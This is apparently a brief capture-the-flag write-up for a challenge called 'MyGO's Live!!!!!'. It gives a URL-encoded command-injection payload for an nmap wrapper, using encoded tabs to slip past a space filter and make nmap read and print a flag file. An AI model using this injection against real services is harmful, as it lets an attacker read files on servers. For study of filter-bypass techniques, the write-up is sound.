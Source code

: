 # MyGO's Live!!!!!

Key point: command injection

nmap command injection:

        1%0d-iL%09/flag-????????????????%09-oN%09/dev/stdout

Using characters such as `%09` to bypass the filter of spaces.
